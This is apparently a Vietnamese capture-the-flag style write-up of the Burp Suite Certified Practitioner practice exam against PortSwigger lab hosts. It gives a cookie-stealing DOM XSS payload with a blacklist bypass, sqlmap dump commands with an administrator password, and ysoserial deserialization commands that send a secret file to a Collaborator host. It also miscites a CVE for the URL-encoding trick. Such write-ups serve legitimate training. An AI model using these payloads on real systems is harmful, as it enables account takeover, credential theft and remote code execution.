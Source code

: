 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `HoangNCH`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](https://user-images.githubusercontent.com/61876488/146169208-1eb515aa-faf9-4919-9085-d5ada6a2e7e0.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](https://user-images.githubusercontent.com/61876488/146169329-819e5586-94fa-4eed-b0f6-be11cde765f5.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](https://user-images.githubusercontent.com/61876488/146169366-6806c816-fc92-4168-a9b7-2d46d778e568.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](https://user-images.githubusercontent.com/61876488/146169426-e2946d9c-0bb5-4c07-8276-4cbbf917eaa1.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](https://user-images.githubusercontent.com/61876488/146169487-b96dde85-3d72-415b-983a-b1346d8b70ad.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](https://user-images.githubusercontent.com/61876488/146169515-c176c379-172f-48b5-abbf-ce883c7251fb.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (CVE-2021-41773). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](https://user-images.githubusercontent.com/61876488/146169608-19a26787-cde1-4ea3-9d6d-4f881f86396b.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](https://user-images.githubusercontent.com/61876488/146169678-f5827df6-b5a3-4952-a324-75fee4c8e571.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](https://user-images.githubusercontent.com/61876488/146169729-99373e9e-3644-4a92-9249-2608900db836.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](https://user-images.githubusercontent.com/61876488/146169768-44764d26-ca61-41c6-9fc2-c5e99478596f.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233700777](https://user-images.githubusercontent.com/61876488/146169796-d3fef678-23b1-477a-88d8-39081c9ab40a.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211213233720286](https://user-images.githubusercontent.com/61876488/146169833-e2bd1f02-c3e3-4a65-92e3-ad0a09598ee2.png)

![image-20211214095628881](https://user-images.githubusercontent.com/61876488/146169883-85286f24-35bf-4baa-a63d-546af660baf4.png)

![image-20211214102141470](https://user-images.githubusercontent.com/61876488/146169901-54b0bbf4-51e2-4aeb-9458-2c0a89140653.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](https://user-images.githubusercontent.com/61876488/146170101-864359b4-3ba1-4978-802b-ab779924814b.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](https://user-images.githubusercontent.com/61876488/146224830-e474e8e4-a211-459c-a10c-44ec2df9de03.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](https://user-images.githubusercontent.com/61876488/146225794-949ab1da-f48f-4e6e-8a63-e46948664405.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](https://user-images.githubusercontent.com/61876488/146225553-4287adcd-3c42-4038-85b8-048ccddc96c7.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](https://user-images.githubusercontent.com/61876488/146225700-4171ece7-00d7-48dd-b133-50f181eb12af.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](https://user-images.githubusercontent.com/61876488/146225935-e7c9ecfa-cedb-4c1d-9fa9-3260917195bf.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](https://user-images.githubusercontent.com/61876488/146226035-87a069d0-3b5e-4680-9637-6f0500294d1e.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](https://user-images.githubusercontent.com/61876488/146226107-3b70e47b-2c23-4cc4-80aa-c30510c693ba.png)

![image-20211215163312473](https://user-images.githubusercontent.com/61876488/146226178-34d29412-1f4a-4eb0-849c-abd37701766c.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```

![image-20211215154458664](https://user-images.githubusercontent.com/61876488/146226291-b748f2ca-8558-4c6b-9c03-a6a7dfa096ab.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](https://user-images.githubusercontent.com/61876488/146226418-fe236de8-9ac5-4541-adbc-5642f32865fd.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](https://user-images.githubusercontent.com/61876488/146226480-ec4e59b6-9818-43e8-a26e-78997c167d14.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP của mình:

![image-20211215155436265](https://user-images.githubusercontent.com/61876488/146226623-dd2ddd99-5b72-425c-b055-2d6316414c69.png)

![image-20211215155444115](https://user-images.githubusercontent.com/61876488/146226686-18428acd-1f33-4f19-9910-8a5afc716e1f.png)

![image-20211215165432252](https://user-images.githubusercontent.com/61876488/146226741-573b1d60-6ff6-479f-8c87-db0085b8ebcc.png)
